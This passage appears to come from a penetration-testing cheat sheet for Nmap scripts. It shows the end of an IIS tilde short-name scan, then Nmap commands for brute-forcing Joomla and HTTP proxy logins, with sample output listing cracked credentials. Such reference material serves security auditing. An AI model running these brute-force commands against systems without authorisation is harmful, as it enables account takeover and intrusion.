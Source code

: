      |       siteba~1.zip
     |
     |     References:
     |       http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
     |_      https://github.com/irsdl/IIS-ShortName-Scanner


### HTTP-Joomla - Brute-Force

_Performs Brute-Force password auditing against Joomla web CMS installations_
     
```sh 
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.1.12
```


     |PORT     STATE SERVICE REASON
     |80/tcp open  http    syn-ack
     | http-joomla-brute:
     |   Accounts
     |     xdeadbee:i79eWBj07g => Login correct
     |   Statistics
     |_    Perfomed 499 guesses in 301 seconds, average tps: 0



### HTTP-Proxy - Brute-Force

_Performs Brute-Force password guessing against HTTP proxy servers_
     
```sh 
nmap --script http-proxy-brute -p 8080 192.168.1.12
```

     |PORT     STATE SERVICE
     |8080/tcp open  http-proxy
     | http-proxy-brute:
     |   Accounts
     |     patrik:12345 - Valid credentials
     |   Statistics
     |_    Performed 6 guesses in 2 seconds, average tps: 3
